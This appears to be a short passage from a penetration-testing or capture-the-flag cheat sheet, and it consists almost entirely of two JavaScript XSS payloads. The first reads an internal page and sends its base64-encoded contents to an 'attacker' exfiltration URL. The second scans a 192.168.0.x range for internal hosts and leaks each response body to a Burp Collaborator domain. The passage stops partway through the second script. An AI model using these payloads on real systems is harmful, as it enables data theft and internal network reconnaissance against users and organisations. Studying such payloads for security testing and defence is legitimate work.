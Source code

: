 ### Steal Page Content

```javascript
var url = "http://10.10.10.25:8000/vac/a1fbf2d1-7c3f-48d2-b0c3-a205e54e09e8"
var attacker = "http://10.10.14.8/exfil"
var xhr = new XMLHttpRequest()
xhr.onreadystatechange = function () {
  if (xhr.readyState == XMLHttpRequest.DONE) {
    fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
  }
}
xhr.open("GET", url, true)
xhr.send(null)
```

### Find internal IPs

```html
<script>
  var q = []
  var collaboratorURL =
    "http://5ntrut4mpce548i2yppn9jk1fsli97.burpcollaborator.net"
  var wait = 2000
  var n_threads = 51

  // Prepare the fetchUrl functions to access all the possible
  for (i = 1; i <= 255; i++) {
    q.push(
      (function (url) {
        return function () {
          fetchUrl(url, wait)
        }
      })("http://192.168.0." + i + ":8080")
    )
  }

  // Launch n_threads threads that are going to be calling fetchUrl until there is no more functions in q
  for (i = 1; i <= n_threads; i++) {
    if (q.length) q.shift()()
  }

  function fetchUrl(url, wait) {
    console.log(url)
    var controller = new AbortController(),
      signal = controller.signal
    fetch(url, { signal })
      .then((r) =>
        r.text().then((text) => {
          location =
            collaboratorURL +
            "?ip=" +
            url.replace(/^http:\/\//, "") +
            "&code=" +
            encodeURIComponent(text) +
            "&" +
            Date.now()
        })
      )
      .catch((e) => {
        if (!String(e).includes("The user aborted a request") && q.length) {
          q.shift()()
        }
      })
```